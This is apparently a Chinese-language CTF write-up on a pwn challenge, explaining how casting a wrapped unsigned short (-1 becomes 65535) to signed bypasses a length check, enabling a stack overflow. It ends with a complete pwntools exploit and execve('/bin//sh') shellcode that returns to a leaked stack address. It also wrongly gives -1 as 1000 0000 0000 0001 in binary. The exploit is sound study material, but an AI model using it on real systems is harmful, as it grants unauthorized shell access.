





## 总结：

通过这道题的学习与收获有：

1、考察的整数溢出和shellcode

2、分析了一下unsigned short int类型强转为short int类型的原理

## 保护策略：




啥都没开，首先考虑shellcode

## 程序分析：






程序主要逻辑很简单，先输入一个数字，判断它是否大于1024，如果大于的话则直接退出。小于的话，就让你输入字符，输入的字节数为刚才输入的数字。这个函数结束之后，开始无限循环去执行puts打印刚才输入的字符。

## 大致思路：

首先第一个点是printf给我们泄露了一个buf的地址（也就是栈地址），这里不用想，肯定是帮助我们执行shellcode而泄露的。

第二个点就是发现read输入的地方，距离返回地址有1051个字节。我们正常可输入的1024字节没法去控制返回地址。

然后开始去考虑怎么控制返回地址，我们只能去想办法绕过对1024字节的检查。发现if这里用了强转，仔细分析一下这里。发现v1原本是个unsigned short类型的，但是在进行检查的时候，是用__int16对v1进行操作之后再判断的。




本身unsigned \__int16定义的v1一定是个正数，如果输入负数的话，就会产生回绕，自己变成65535。而在判断时以__int16类型进行强转，使得>左边的整体值为-1，从而绕过了检查。

绕过检查之后思路就简单很多了，因为没有NX，直接布置shellcode，由于我们是是有buf的栈地址的，因此思路就是直接布置shellcode，然后填充垃圾数据到返回地址，把返回地址装一个buf的栈地址（我们丝毫不用担心输入字节数的问题，毕竟我们可以输入65535个字节呢），此外也不需要去担心最后的无限循环执行puts，因为我们再返回main函数的时候就已经劫持了程序的执行流使其执行了shellcode。

## 强转的过程

这里简单说一下这个强转的过程，因为我感觉这个点应该去研究一下。

```c
#include <stdio.h>
#include <stdlib.h>
int main(){
	unsigned __int16 a=-1;
	if((__int16)a>1024)
	{
		printf("1\n");
		printf("%u\n",a);
	}
	printf("%u\n",a);
	return 0; 
}
```



这个地方直接打印了65535，就说明绕过了if的检查。为什么最后a是65535经过强转就是-1呢？

因为unsigned就代表了无符号整数，也就是最高位的0,1依然表示数字本身。而short int，则代表有符号整数，它的最高位是符号位，只能用来表示正负(1负，0正)。**无符号整数转有符号整数时，如果最高位为0，则符号数等于无符号数。如果最高位为1，则将除去最高位之外剩下的所有位取反再加1，得到的就是有符号数（这步其实也就是取补码）** 转换如下

```python
65535 unsigned short int
1111 1111 1111 1111

-1    short int
1000 0000 0000 0001
```

所以在if检查的时候，强转得到的-1绕过了检查，但事实上v1一直都是65535（因为它是unsigned short int类型）

## EXP:

```python
from pwn import *
context(arch='i386',log_level='debug')
#p=remote('node4.buuoj.cn',26128)
p=process('./a')
#gdb.attach(p)
shellcode=asm('''
xor ecx,ecx
xor edx,edx
xor ebx,ebx 
push ebx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
push 11
pop eax
int 0x80
''')
p.sendline('-1')
p.recvuntil('Be careful. How many chars you want to reapeat?\n')
leak_addr=int(p.recv(8),16)
payload=shellcode.ljust(0x41b+0x4,'\x00')
payload+=p32(leak_addr)
p.send(payload)
p.interactive()

```